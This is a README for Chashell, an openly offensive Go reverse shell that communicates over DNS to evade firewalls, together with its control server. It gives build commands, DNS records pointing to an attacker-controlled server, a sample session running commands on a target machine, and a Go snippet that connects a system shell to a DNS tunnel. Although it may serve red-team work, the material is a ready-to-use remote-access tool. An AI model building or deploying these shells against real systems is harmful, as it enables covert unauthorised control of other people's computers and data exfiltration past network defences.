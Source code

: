 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicates over DNS. 
It can be used to bypass firewalls or tightly restricted networks.

It comes with a multi-client control server, named `chaserv`.

![Chaserv](img/chaserv.gif)

### Communication security

Every packet is encrypted using symmetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)), with a shared key between the client
and the server.

We plan to implement asymmetric cryptography in the future.

### Protocol

Chashell communicates using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. For reference, the Protocol Buffers structure (`.proto` file) is available in the `proto` folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packet is encrypted, hex-encoded and then packed for DNS transportation.

### Supported systems

Chashell should work with any desktop system (Windows, Linux, Darwin, BSD variants) that is supported by the Go compiler.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)
* OS X (386/amd64)

### How to use Chaserv/Chashell

#### Building

Make sure the [GOPATH](https://github.com/golang/go/wiki/GOPATH) environment variable is correctly configured before running these commands.

Build all the binaries (adjust the domain_name and the encryption_key to your needs):


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Build for a specific platform:

```
$ make build-all OSARCH="linux/arm"
```

Build only the server:

```
$ make build-server
```

Build only the client (*chashell* itself):

```
$ make build-client
```

#### DNS Settings

* Buy and configure a domain name of your choice (preferably short).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

#### Usage

Basically, on the server side (attacker's computer), you must use the `chaserv` binary. For the client side (i.e the target), use the `chashell` binary.

So:

* Run `chaserv` on the control server.
* Run `chashell` on the target computer.

The client should now connect back to `chaserv`:

```
[n.chatelain]$ sudo ./chaserv
chashell >>> New session : 5c54404419e59881dfa3a757
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

Use the `sessions [sessionid]` command to interact with a client.
When interacting with a session, you can use the `background` session in order to return to the `chashell` prompt.

Use the `exit` command to close `chaserv`.

## Implement your own

The `chashell/lib/transport` library is compatible with the `io.Reader` / `io.Writer` interface. So, implementing a reverse shell is as easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## Debugging

For more verbose messages, add `TAGS=debug` at the end of the make command.

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the host name using the `InfoPacket` message.
* Create a *proxy/relay* tool in order to tunnel TCP/UDP streams (Meterpreter over DNS !).
* Better error handling.
* Get rid of dependencies.

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>